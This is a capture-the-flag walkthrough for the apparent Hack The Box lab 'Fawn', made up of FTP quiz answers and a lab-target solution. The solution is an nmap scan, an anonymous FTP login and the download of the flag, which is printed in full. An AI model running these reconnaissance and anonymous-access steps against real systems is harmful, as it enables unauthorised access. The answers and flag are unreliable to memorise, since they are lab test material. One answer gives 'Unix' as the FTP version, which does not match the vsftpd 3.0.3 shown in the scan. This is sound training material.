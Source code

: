 # Fawn

> What does the 3-letter acronym FTP stand for? 

#### File Transfer Protocol 

---

> What communication model does FTP use, architecturally speaking? 

#### Client-Server model 

---

> What is the name of one popular GUI FTP program? 

#### FileZilla 

---

> Which port is the FTP service active on usually? 

#### 21 TCP

---

> What acronym is used for the secure version of FTP? 

#### SFTP 

---

> What is the command we can use to test our connection to the target? 

#### ping 

---

> From your scans, what version is FTP running on the target? 

```console
$ nmap -sV 10.129.137.172
Starting Nmap 7.80 ( https://nmap.org ) at 2021-10-27 22:22 UTC
Nmap scan report for 10.129.137.172
Host is up (0.31s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix
```

#### Unix 

---

> Submit root flag 

We can see if using `ftp` gives us some files. We don't have a username, so let's try with the anonymous mode

```console
$ ftp 10.129.137.172
Connected to 10.129.137.172.
220 (vsFTPd 3.0.3)
Name (10.129.137.172:marco): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Now we can to list the files and get the flag

```console
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04 03:25 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00 secs (262.6050 kB/s)
ftp> bye
221 Goodbye.

$ cat flag.txt
035db21c881520061c53e0536e44f815
```

#### HTB{035db21c881520061c53e0536e44f815}